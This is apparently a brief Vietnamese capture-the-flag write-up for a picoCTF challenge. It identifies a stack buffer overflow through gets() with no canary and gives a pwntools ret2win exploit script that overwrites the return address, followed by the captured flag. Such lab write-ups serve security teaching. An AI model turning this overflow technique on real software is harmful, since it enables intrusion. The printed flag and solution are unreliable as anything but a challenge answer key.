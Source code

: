 # khai thác
đọc source ta thấy có lỗi BOF ở hàm vuln và không có canry
```c
#define BUFFSIZE 64
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}
```
có cả flag trong file nên ta sẽ tìm offset và ret2win
```python
from pwn import *

p = remote("saturn.picoctf.net", 61404)

payload = b"a" * 72 + p64(0x000000000040123b)

p.sendline(payload)
p.interactive() 
# picoCTF{b1663r_15_b3773r_11c407bc}
```